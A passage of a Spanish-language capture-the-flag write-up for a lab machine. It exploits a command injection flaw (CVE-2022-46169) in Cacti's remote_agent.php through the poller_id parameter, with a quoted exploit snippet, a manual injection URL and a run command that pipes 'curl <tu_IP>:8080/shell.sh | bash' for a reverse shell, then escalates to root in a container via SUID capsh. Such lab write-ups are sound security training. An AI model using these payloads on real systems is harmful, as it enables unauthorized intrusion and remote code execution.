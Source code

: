 ```
						// ...
```

Cuando se llama ```poll_for_data()``` se recuperan algunos parámetros de la peticion, si el ```action``` de ```poller_item``` entra el case ```POLLER_ACTION_SCRIPT_PHP```, la función ```proc_open``` ejecuta un script PHP

Y uno de los parametros es ```poller_id```, y se recupera a través de la función ```get_filter_request_var()```, si buscan esa funcion en google, se daran cuenta que perimte insertar cadenas arbitrarias, esta variable de ```poller_id``` se inserta luego en la cadena que se le pasa a proc_open, por lo que nosotros podemos indicarle que ejecute cualquier otra cosa en ```poller_id```, lo que conduce a una vulnerabilidad de inyección de comandos.

Al buscar en google podemos encontrar un par de exploits, usare este: [https://github.com/sAsPeCt488/CVE-2022-46169](https://github.com/sAsPeCt488/CVE-2022-46169)

Si vemos un poco el codigo:

```python
    url = f'{args.target}/remote_agent.php'
    params = {'action': 'polldata', 'host_id': host_id,
              'poller_id': payload, 'local_data_ids[]': local_data_ids}
    headers = {'X-Forwarded-For': '127.0.0.1'}
```

Vemos como en el parametro ```poller_id``` le esta adjuntando nuestro payload, que es esto declarado mas aca arriba: ```payload = f'; /bin/sh -c "{cmd}"'```, 

Solo queda ejecutar el exploit asi: ```python3 CVE-2022-46169.py http://10.10.11.211 -c "curl <tu_IP>:8080/shell.sh | bash"```

Si quieren hacer una explotacion manual, apunten a este recurso:

```/remote_agent.php?action=polldata&poller_id=;bash -c '<comando>'```

Y ya nos llego la rev shell:

![](/assets/img/monitorsTwo/3.png)


## Escalada de Docker

Ahora buscaremos binarios con permisos SUID: ```find / -perm -u=s -type f 2>/dev/null```

Podemos ver el binario: ```/sbin/capsh```

Si haces una busqueda en GFTObins encontramos que nos podemos hacer root: [](https://gtfobins.github.io/gtfobins/capsh/#suid)

```
www-data@50bca5e748b0:/sbin$ ./capsh --gid=0 --uid=0 --
./capsh --gid=0 --uid=0 --
whoami 
root
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Sin embargo, no nos servira para conseguir ninguna flag, ya que estamos dentro de un contenedor, a este punto decidi usar linpeas para ver si hay otro archivo interesante, y me arrojo que existe uno que se llama ```/entrypoint.sh```.

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
```
